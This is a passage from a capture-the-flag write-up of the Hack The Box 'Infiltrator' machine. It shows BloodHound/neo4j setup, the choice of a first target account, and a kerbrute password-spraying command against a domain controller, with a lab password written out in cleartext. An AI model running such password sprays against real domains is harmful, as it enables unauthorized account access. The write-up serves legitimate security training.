 We started `neo4j` and began with the `analysis`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ sudo neo4j start
[sudo] password for kali: 
Directories in use:
home:         /usr/share/neo4j
config:       /usr/share/neo4j/conf
logs:         /etc/neo4j/logs
plugins:      /usr/share/neo4j/plugins
import:       /usr/share/neo4j/import
data:         /etc/neo4j/data
certificates: /usr/share/neo4j/certificates
licenses:     /usr/share/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.
Started neo4j (pid:110318). It is available at http://localhost:7474
There may be a short delay until the server is ready.
```

A quick look revealed a pretty straight forward path for which we focused on `D.ANDERSON@INFILTRATOR.HTB` as first target and to gain foothold on the box.

![](images/2024-08-31_22-33_bloodhound.png)

## Password  Reuse

Since we had at least `two passwords` and even more `usernames`, we went back to `kerbrute` and `password spraying`. Luckily for us we stumbled upon the classic `password reuse` vulnerability. In our case the users `l.clark` and `d.anderson` shared the same password.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ ~/opt/05_password_attacks/kerbrute/kerbrute passwordspray -d infiltrator.htb --dc 10.129.223.154 usernames.txt 'WAT?watismypass!' 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 08/31/24 - Ronnie Flathers @ropnop

```